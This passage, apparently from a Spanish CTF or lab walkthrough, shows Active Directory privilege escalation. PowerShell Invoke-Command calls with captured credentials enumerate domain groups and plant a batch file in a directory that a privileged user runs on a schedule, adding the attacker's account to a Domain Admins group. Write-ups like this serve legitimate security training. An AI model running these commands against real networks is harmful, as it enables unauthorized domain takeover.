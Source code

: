 <figure><img src="../../../../../.gitbook/assets/3056_vmware_a8PYyudq7V.png" alt=""><figcaption></figcaption></figure>

Verificaremos los grupos existentes en el dominio, para verificar que se encuentre el mencionado en el documento. Efectivamente existe un grupo llamado "Site\_Admin".

{% code overflow="wrap" %}
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { net groups /domain }
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/3057_vmware_wnbyjpYYyS.png" alt=""><figcaption></figcaption></figure>

Al verificar el grupo "Site\_Admin", comprobamos que aparece un comentario sobre dicho grupo mencionando que este grupo solamente se utiliza en casos de emergencia y forma parte del grupo "Domain Admins".

{% code overflow="wrap" %}
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { net group Site_Admin /domain }
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/3058_vmware_CuVsbjtndh.png" alt=""><figcaption></figcaption></figure>

Por lo tanto, nos encontramos con el siguiente escenario:

* Lois, tiene permisos para modificar la membresía de grupos sobre usuarios.
* El script 'keepmeon.bat' es ejecutado por el usuario Lois cada 5 minutos
* Este script itera por cualquier archivo que acabe en extensión .bat en el directorio actual.
* Disponemos de las credenciales del usuario 'Awallace'.

Con este escenario presente, la idea será crear un archivo .bat que trate de añadir al usuario _**awallace**_ al grupo _**Site\_Admin**_, este script .bat se ejecutará cada 5 minutos por el usuario _**Lois**_ que tiene permisos para añadirnos a grupos.

Por lo tanto, si todo es correcto y funciona al ejecutarse ese script automatizado, Lois nos añadirá al grupo mencionado teniendo acceso completo al Domain Admins.

El primer paso será crear el archivo .bat que nos añada al grupo mencionado.

{% code overflow="wrap" %}
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { Set-Content -Path C:\Progra~1\keepmeon\pwn3d.bat -Value 'net group Site_Admin awallace /domain /add' }

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { Get-Content C:\Progra~1\keepmeon\pwn3d.bat }
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/3059_vmware_yjhN2wZcNh.png" alt=""><figcaption></figcaption></figure>
